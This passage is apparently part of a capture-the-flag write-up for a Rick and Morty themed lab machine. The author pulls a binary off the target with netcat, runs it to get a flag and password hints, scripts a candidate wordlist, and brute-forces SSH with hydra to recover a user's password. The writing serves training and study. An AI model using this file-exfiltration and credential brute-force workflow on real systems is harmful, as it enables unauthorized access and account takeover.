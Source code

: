 Inside the path **/home/RickSanchez/RickSanchez/RICKS_SAFE/**, I found a binary called safe.

```bash
[Summer@localhost home]$ cd RickSanchez/RickSanchez/RICKS_SAFE/
[Summer@localhost RICKS_SAFE]$ ls
safe
```

I transfer this to the attacking machine, I give execution permissions to the safe binary, and to execute it assign the password **131333** as parameter.

```bash
[Summer@localhost RICKS_SAFE]$ nc -vln 3232 < safe 
```

```bash
root@kali:~$ nc 192.168.179.148 3232 > safe
root@kali:~$ chmod 755 safe
root@kali:~$ ./safe 131333
decrypt:        FLAG{And Awwwaaaaayyyy we Go!} - 20 Points

Ricks password hints:
 (This is incase I forget.. I just hope I don't forget how to write a script to generate potential passwords. Also, sudo is wheely good.)
Follow these clues, in order


1 uppercase character
1 digit
One of the words in my old bands name.  @
```
In the results we can see the 20pts flag that adds up to 100pts, and the specifications to generate the password for the Rick user, searching in google I found the band **[The Flesh Curtains](https://rickandmorty.fandom.com/wiki/The_Flesh_Curtains)** to wich Rick belonged, I developed a simple bash script to generate the possible passwords, and execute it.

```bash
#!/bin/bash

band='The Flesh Curtains'

for l in {A..Z}; do
        for n in {0..9}; do
           for w in $band; do
                   echo $l$n$w
           done
        done
done > wordlist.txt
```

```bash
root@kali:~$ ./dictgen.sh 
```

Then I ran hydra to perform brute force with the generated wordlist.

```bash
root@kali:~$ hydra -l RickSanchez -P wordlist.txt ssh://192.168.179.148:22222
..
[22222][ssh] host: 192.168.179.148   login: RickSanchez   password: P7Curtains
```
